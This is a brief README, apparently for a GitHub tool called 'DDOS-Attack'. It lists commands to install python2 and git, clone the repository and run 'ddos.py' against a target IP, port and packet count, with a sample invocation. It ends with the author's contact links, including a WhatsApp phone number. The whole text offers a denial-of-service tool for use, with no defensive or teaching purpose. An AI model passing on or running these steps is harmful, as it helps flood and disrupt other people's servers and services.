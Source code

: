 # Tn.BoyK07
===============================================================================

$ pkg update && pkg upgrade

$ pkg install python2

$ pkg install git

$ git clone https://github.com/Tn-BoyK07/DDOS-Attack

$ cd DDOS-Attack

$ python2 ddos.py <ip> <port> <packet>

[+] Ex: python2 ddos.py 192.168.0.1 80 1000

===============================================================================

# Contact Me:
WhatsApp : https://api.whatsapp.com/send?phone=62859181977385

Facebook : Abbot Tak Terimo

Messenger : https://m.me/Tn.BoyK07
